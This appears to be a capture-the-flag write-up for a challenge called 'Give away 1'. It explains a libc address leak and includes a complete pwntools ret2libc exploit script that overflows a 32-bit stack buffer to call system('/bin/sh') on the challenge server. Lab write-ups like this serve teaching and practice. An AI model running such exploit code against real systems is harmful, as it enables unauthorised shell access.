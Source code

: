 # Give away 1

It gives us some sort of address, but what address? it Begins with `0xf7`, so likely an address in libc. We can step through in pwndbg and find that it's actually printing the address of system in libc. Since the challenge gives us their libc version, we can calcualate the libc base given the address of system and therefore the address of `/bin/sh`.

This means we can make the program go to the address of system, with `/bin/sh` as an argument(arguments are stored on the stack, just after the return address in 32-bit)

So, our exploit must:
* Collect system address
* Calculate libc version and address of `/bin/sh`
* Use this to call `system("/bin/sh")`

```python
from pwn import *
import re
NUM_TO_RET = 0x20 + 4
padding = b'A' * NUM_TO_RET
e = ELF("./give1")
libc = ELF("/lib32/libc.so.6" if sys.argv[1] == "local" else "libc-2.27.so")
#p = e.process()
p = remote('sharkyctf.xyz', 20334)
output = p.recvline().decode()
system = int(re.findall("Give away: (.*)", output)[0], 16)
libcbase = system - libc.symbols['system']
libc.address = libcbase
chain = flat(system, libc.symbols['exit'], next(libc.search(b"/bin/sh\x00")))
payload = padding + chain
p.sendline(payload)
p.interactive()
```
